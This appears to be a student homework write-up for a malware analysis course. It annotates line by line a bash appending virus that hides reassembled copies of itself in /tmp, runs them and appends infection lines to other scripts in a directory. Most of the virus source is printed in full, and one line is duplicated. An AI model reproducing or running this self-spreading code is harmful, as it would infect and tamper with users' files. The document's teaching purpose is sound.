 \documentclass[a4paper,6.5pt]{article}
\begin{document}
\begin{center}
Malware analysis and design 

Homework No. 2

Vincenzo Arceri VR386484 Giovanni Liboni VR387955
\end{center}

The bash code given as assignment is a appending virus that copies his own code after the target file code, if this isn't already infected.
Below we explain in detail the virus behavior.

\begin{lstlisting}
if [ "$1" == "test" ]; then  #@1// If the first parameter is equals to "test" exit and 
  exit 0  #@2				// return 0 because the file is already infected
fi  #@3
MANAGER=(test cd ls pwd)  #@4 // Array of 4 elements, used as temporary file names
RANDOM=$$  #@5 // Reseed the random number generator using virus process ID
for target in *; do  #@6	// For each file in the directory
	nbline=$(wc -l $target)  #@7		// Count the number of the target file					
	nbline=${nbline##}  #@8	// Trim the left side of the string
	nbline=$(echo $nbline | cut -d " " -f1)  #@9 // and retrives the number of lines
	nbline=$(echo $nbline | cut -d " " -f1) #@9 		// and retrive the number of lines
  
	// Checks if the chosen file has less number of lines of the virus. 
	// If it is true continue with another file
	if [ $(($nbline)) -lt 39 ]; then  #@10
		continue  #@11
	fi  #@12
	// Choose the name of the new file from one of the value contained in MANAGER, randomly.
	NEWFILE=${MANAGER[$((RANDOM % 4))]}  #@13
	// Takes the last 36 lines of target and sort them with ordering based on the number after @.
	// It restores the code in the original order and writes the output in an hidden temporary file. (name chosen in the previous line)
	tail -n 36 $target | awk '{ print($NF" "$0) }' | cut -d"@" -f2- | sort -g | cut -d" " -f2- > /tmp/".$NEWFILE"  #@14
	// Gives to /tmp/\ /"$NEWFILE"  the execution permission and execute it redirecting stderr to /dev/null
	chmod +x /tmp/".$NEWFILE" && /tmp/".$NEWFILE" test 2> /dev/null;  #@15
  // Checks the exit code of the last command executed: if it correspond to the virus it returns 0 (see first 3 lines) and continue, because the file is already infected. 
  if [ "$?" == "0" ]; then  #@16
    continue  #@17
  fi  #@18
	// Choose the name of the new file from one of the value contained in MANAGER, randomly.
  NEWFILE=${MANAGER[$((RANDOM % 4))]}  #@19
	// Path of the just created file								
  NEWFILE="/tmp/.$NEWFILE"  #@20
	// Appends to the target file the nexts 3 lines of code that will be executed  when the target file will be run: this lines gets the last 36 lines of target (the virus) and executes it in background: there three lines are used for the infection phase; re-order the last 36 lines of the infected file and execute them.
  echo "tail -n 36 $0 | awk '{ print(\$NF\" \"\$0) }' | cut -d\"@\" -f2- | sort -g | cut -d\" \" -f2- > $NEWFILE" >> $target  #@21
  echo "chmod +x $NEWFILE && $NEWFILE &" >> $target  #@22
  echo "exit 0" >> $target  #@23


\end{lstlisting}
\end{document}
